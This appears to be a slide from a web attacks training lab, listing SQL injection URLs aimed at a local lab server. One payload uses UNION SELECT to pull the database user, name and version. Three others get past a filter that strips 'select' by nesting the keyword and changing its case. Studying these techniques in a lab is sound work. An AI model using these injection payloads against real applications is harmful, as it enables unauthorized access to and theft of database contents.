

# Web attacks lab
5-SQL: To retrieve More
http://192.168.67.128/compiler/sql/id.php?id=1+union%20select%201,2,concat(user(),%22:%22,database(),%22:%22,version())
6-SQL: Adding filter that replace select with space and try
	http://192.168.67.128/compiler/sql/id1.php?id=1+union+select+*+from+users
	http://192.168.67.128/compiler/sql/id1.php?id=1+union+selselectect+*+from+users
	http://192.168.67.128/compiler/sql/id1.php?id=1+union+Select+*+from+users